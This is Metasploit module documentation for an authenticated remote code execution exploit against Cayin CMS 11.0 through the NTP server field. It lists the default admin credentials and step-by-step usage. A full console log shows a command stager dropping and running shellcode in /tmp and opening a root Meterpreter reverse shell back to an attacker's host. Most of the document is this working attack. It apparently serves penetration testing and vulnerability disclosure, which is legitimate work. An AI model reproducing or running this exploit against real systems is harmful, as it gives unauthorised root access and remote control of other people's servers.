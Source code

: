 ## Vulnerable Application

This module exploits an authenticated RCE in Cayin CMS <= 11.0. The
RCE is executed in the `system_service.cgi` file's `ntpIp` Parameter.
The field is limited in size, so repeated requests are made to
achieve a larger payload. Cayin CMS-SE is built for Ubuntu 16.04
(20.04 failed to install correctly), so the environment should be
pretty set and not dynamic between targets. Results in root level
access.

With CMS-SE's UI there are several options for NTP server.

  1. Test (this runs the RCE 3 times, thus is exploitable, a different
strategy like `wget` would be required)
  2. Save (saves the data, but doesn't run it)
  3. Update (what was used in this exploit)

Default authentication for the system is administrator:admin from
[Guide](http://onlinehelp.cayintech.com/cmsServer/MCS110EN-01/Web_Manager.html)

## Verification Steps

  1. Install the application on Ubuntu 16.04
  2. Start msfconsole
  3. Do: ```exploits/linux/http/cayin_cms_ntp```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

## Scenarios

### Cayin CMS-SE 11.0 build 19071 on Ubuntu 16.04

```
[*] Processing cayin_cms.rb for ERB directives.
resource (cayin_cms.rb)> use exploits/linux/http/cayin_cms_ntp
resource (cayin_cms.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (cayin_cms.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (cayin_cms.rb)> set lport 6666
lport => 6666
resource (cayin_cms.rb)> set verbose true
verbose => true
resource (cayin_cms.rb)> check
[+] Cayin CMS install detected
[*] 2.2.2.2:80 - The service is running, but could not be validated.
resource (cayin_cms.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:6666 
[+] Cayin CMS install detected
[*] Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\317\\0\\0\\0\\112\\1\\0\\0'>>/tmp/TCKAi", "printf '\\7\\0\\0\\0\\0\\20\\0\\0\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150\\300\\250\\2\\307\\150\\2\\0\\32\\12\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200'>>/tmp/TCKAi", "printf '\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300\\170'>>/tmp/TCKAi", "printf '\\20\\133\\211\\341\\231\\262\\152\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/TCKAi ; chmod +x /tmp/TCKAi ; /tmp/TCKAi"]
[*] Command Stager progress -  26.60% done (199/748 bytes)
[*] Command Stager progress -  53.07% done (397/748 bytes)
[*] Command Stager progress -  79.81% done (597/748 bytes)
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (980808 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:6666 -> 2.2.2.2:57446) at 2020-06-12 10:30:21 -0400
[*] Command Stager progress - 100.00% done (748/748 bytes)

meterpreter > getuid
Server username: no-user @ CMS-SE (uid=0, gid=1001, euid=0, egid=1001)
meterpreter > sysinfo
Computer     : CMS-SE
OS           : Ubuntu 16.04 (Linux 4.4.0-179-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
